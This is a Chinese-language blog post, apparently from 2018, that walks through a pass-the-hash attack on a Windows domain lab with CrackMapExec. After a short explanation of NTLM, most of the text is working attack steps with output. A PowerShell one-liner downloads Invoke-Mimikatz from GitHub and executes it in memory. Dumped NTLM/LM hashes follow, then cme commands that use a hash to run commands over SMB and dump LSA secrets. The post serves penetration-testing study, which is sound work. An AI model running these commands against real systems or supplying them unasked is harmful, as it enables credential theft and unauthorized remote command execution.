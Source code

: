 ```yaml
---
categories: 内网渗透
date: "2018-03-27T00:00:00Z"
description: 本文介绍一个工具 - CrackMapExec 进行 NTLM Hash传递攻击
title: 使用CrackMapExec 进行 NTLM Hash传递攻击
url: /archivers/2018-03-27/1
---
```



## 0x01 前言

早期`SMB`协议在网络上传输明文口令。后来出现 `LAN Manager Challenge/Response `验证机制，简称`LM`，它是如此简单以至很容易就被破解。微软提出了WindowsNT挑战/响应验证机制，称之为NTLM。

从`Win2000`开始默认协议为`Kerboros`，下列情况会调用`NTLM`：

* 遗留客户端或服务器需要登录到网络或本地时。
* UNIX客户端需要与NT服务器通话时。
* 有正在使用验证`NTLM`的服务器信息块`（SMB）`后台程序的UNIX客户端时。
* 也即认证方或被认证方有仅支持NTLM情况时。

它以`挑战/响应（Challenge/Response）`顺序为基础。


* 1.客户端发送用户名和域名到服务器。
* 2.服务器转发到域控制器DC。
* 3.`DC`用客户端密码随机产生一个`8字节`得挑战`（Challenge）`，发送给服务器。
* 4.服务器将挑战转发给客户端。
* 5.客户端用密码经过`hash`及`DES`加密算法等操作得到一个加密结果响应`（Response）`发送给服务器。
* 6.服务器将响应转发给`DC`。
* 7.`DC`做同样操作验证客户端响应。
* 8.验证结束，返回结果通知服务器。


## 0x02 NTLM对渗透的作用

NTLM就好像是一个令牌，有了这个令牌就相当于获取了这个令牌所属者的权限。

最大的特点就是我们可以使用`SMB`执行`Command`。

## 0x03 CrackMapExec 介绍

CrackMapExec提供了域环境（活动目录）渗透测试中一站式便携工具，它具有列举登录用户、通过SMB(Server Message Block)网络文件共享协议爬虫列出SMB分享列表，执行类似于Psexec的攻击、使用powerShell脚本执行自动式Mimikatz/Shellcode/DLL注入到内存中，dump NTDS.dit密码。


WiKi:https://github.com/byt3bl33d3r/CrackMapExec/wiki

## 0x03 安装CrackMapExec

### Kali Linux

`apt-get install crackmapexec`

### Debian/Ubuntu

```
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install crackmapexec
```

## 0x04 传递NTLM Hash执行命令

### 使用`Mimikatz`获取`NTLM Hash`

```

PS C:\Users\administrator\Documents>IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')

PS C:\Users\administrator\Documents>Invoke-Mimikatz

```

获取NTLM Hash

```
****
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : PAYLOADS
         * LM       : 5609e3f4c7c56d5fa86fb73c70515bd7
         * NTLM     : dab7de8feeb5ecac65faf9fdc6cac3a9
         * SHA1     : 67302089bba4993f2f845e5992db0a21e64679fa
        tspkg :
         * Username : Administrator
         * Domain   : PAYLOADS
         * Password : ****
        wdigest :
         * Username : Administrator
         * Domain   : PAYLOADS
         * Password : ****
        kerberos :
         * Username : Administrator
         * Domain   : PAYLOADS.ONLINE
         * Password : ****
        ssp :
        credman :

****

```

### 使用`CrackMapExec`执行命令

```
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 -x whoami
SMB         192.168.3.5     445    LIYINGZHEA30B    [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B) (domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9 (Pwn3d!)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Executed command 
SMB         192.168.3.5     445    LIYINGZHEA30B    payloads\administrator
```

### 使用`CrackMapExec`获取本地密码(Local Security Authority)LSA

```
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 --lsa
SMB         192.168.3.5     445    LIYINGZHEA30B    [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B) (domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9 (Pwn3d!)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Dumping LSA secrets
SMB         192.168.3.5     445    LIYINGZHEA30B    WinHack:d3a4b1078aba22996575dd38056e3c99:PAYLOADS.ONLINE:PAYLOADS:::
SMB         192.168.3.5     445    LIYINGZHEA30B    Administrator:ff007a95ee46c0240e7f0c4b9b0c890a:PAYLOADS.ONLINE:PAYLOADS:::
SMB         192.168.3.5     445    LIYINGZHEA30B    PAYLOADS\LIYINGZHEA30B$:aad3b435b51404eeaad3b435b51404ee:eda8896ce9133d0bcaf0b6ece9cb0d45:::
SMB         192.168.3.5     445    LIYINGZHEA30B    DPAPI_SYSTEM:01000000faf06c0f43acbed98d62bd9829d053acb06a00f159e3419d193ff5be56c028fe8d7f0053161d9331
SMB         192.168.3.5     445    LIYINGZHEA30B    NL$KM:ac8c8a7ce1dd903d74a231a44fcf5df82db711df62e495da9b5f10c3a52dd618a8abce6975c69fea6a9ed69ff6511c62f9a750b5d696a69c3221dc0f1f849f3d
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Dumped 5 LSA secrets to /root/.cme/logs/LIYINGZHEA30B_192.168.3.5_2018-03-27_155122.lsa and /root/.cme/logs/LIYINGZHEA30B_192.168.3.5_2018-03-27_155122.cached
```

### More ...

后续再加
